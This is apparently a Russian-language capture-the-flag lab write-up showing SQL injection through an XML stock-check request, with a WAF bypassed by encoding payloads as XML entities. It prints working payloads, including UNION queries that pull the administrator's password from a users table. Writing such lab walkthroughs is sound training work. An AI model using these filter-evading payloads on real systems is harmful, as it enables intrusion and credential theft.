


# SQL-инъекция с обходом фильтра через XML

## Дисклеймер
---

**Текст был написан и переведен автором вручную. Языковая модель использовалась для форматирования и стилистической правки.**

**Данный материал предоставлен исключительно в образовательных и исследовательских целях. Я не призываю и не поощряю несанкционированный доступ к информационным системам или нарушение закона. По моему мнению, одним из наиболее эффективных способов борьбы с киберпреступностью является просвещение как рядовых пользователей и руководителей, так и разработчиков цифровых продуктов о распространенных уязвимостях, которые потенциально могут быть использованы злоумышленниками для совершения противоправных действий.**

**⚠️ Все действия, описанные в этом документе, были выполнены в авторизованной исследовательской среде (CTF/тестовый полигон), без нарушения прав третьих лиц или действующего законодательства.**

**Несанкционированное вмешательство в компьютерные системы, нарушение правил хранения и обработки данных и другие формы так называемого «черного» хакерства противоречат закону и этике информационной безопасности.**

**Я придерживаюсь принципов этичного исследования и ответственного раскрытия уязвимостей.**

## Приложение
---


Приложение представляет собой магазин с забавными товарами:


## Функционал
---

У каждого товара на странице деталей есть кнопка `Check stock`, которая показывает количество единиц товара на складах в разных городах:


Функция `Check stock` отправляет на бэкенд запрос, содержащий XML:



```XML
<?xml version="1.0" encoding="UTF-8"?>
	<stockCheck>
		<productId>
			13
		</productId>
		<storeId>
			1
		</storeID>
	</stockCheck>
```

Это и есть наша точка инъекции!

## Эксплуатация
---

Однако WAF обнаружит сырой вредоносный ввод:


Приложение по-прежнему будет понимать закодированную версию `storeId`, при условии, что она валидна. В данном случае `storeId = 1` обрабатывается так же, как `storeId = &#49;`:


Это означает, что можно передавать полезные нагрузки, закодированные в XML, для эксплуатации уязвимости SQL-инъекции.

```SQL
1' OR 1=1 --
```

Ниже представлена версия этой PoC-нагрузки для SQL-инъекции, закодированная в XML:

```XML
&#49;&#39;&#32;&#79;&#82;&#32;&#49;&#61;&#49;&#32;&#45;&#45;&#32;
```

Это приведет к выводу всех единиц товара во всех магазинах:


Учитывая, что главная цель лабы — войти в систему как пользователь `administrator`, лучшим вариантом является подход на основе `UNION`.

Этот запрос позволит проверить, сколько столбцов возвращает запрос, и доступна ли таблица `users` (в данном случае количество `NULL`-заполнителей равно 1):

```SQL
1' UNION SELECT NULL FROM users --
```

Закодировано в XML:

```XML
&#49;&#39;&#32;&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#78;&#85;&#76;&#76;&#32;&#70;&#82;&#79;&#77;&#32;&#117;&#115;&#101;&#114;&#115;&#32;&#45;&#45;&#32;
```

Он работает!


Теперь извлечем данные из таблицы `users`:

```SQL
1' UNION SELECT password FROM users WHERE username='administrator' --
```

Кодирование в XML:

```XML
&#49;&#39;&#32;&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#112;&#97;&#115;&#115;&#119;&#111;&#114;&#100;&#32;&#70;&#82;&#79;&#77;&#32;&#117;&#115;&#101;&#114;&#115;&#32;&#87;&#72;&#69;&#82;&#69;&#32;&#117;&#115;&#101;&#114;&#110;&#97;&#109;&#101;&#61;&#39;&#97;&#100;&#109;&#105;&#110;&#105;&#115;&#116;&#114;&#97;&#116;&#111;&#114;&#39;&#32;&#45;&#45;&#32;
```


Чтобы сделать результат более наглядным, можно использовать полезную нагрузку с конкатенацией, чтобы извлечь одновременно `username` и `password` из таблицы, разделив их разделителем `\|/`:

```SQL
1' UNION SELECT username || '\|/' || password FROM users WHERE username='administrator' --
```

Закодировано в XML:

```XML
&#49;&#39;&#32;&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#117;&#115;&#101;&#114;&#110;&#97;&#109;&#101;&#32;&#124;&#124;&#32;&#39;&#92;&#124;&#47;&#39;&#32;&#124;&#124;&#32;&#112;&#97;&#115;&#115;&#119;&#111;&#114;&#100;&#32;&#70;&#82;&#79;&#77;&#32;&#117;&#115;&#101;&#114;&#115;&#32;&#87;&#72;&#69;&#82;&#69;&#32;&#117;&#115;&#101;&#114;&#110;&#97;&#109;&#101;&#61;&#39;&#97;&#100;&#109;&#105;&#110;&#105;&#115;&#116;&#114;&#97;&#116;&#111;&#114;&#39;&#32;&#45;&#45;&#32;
```


Теперь полученные учетные данные можно использовать для входа в систему как пользователь `administrator`, что решает лабу:



Спасибо за внимание! ^^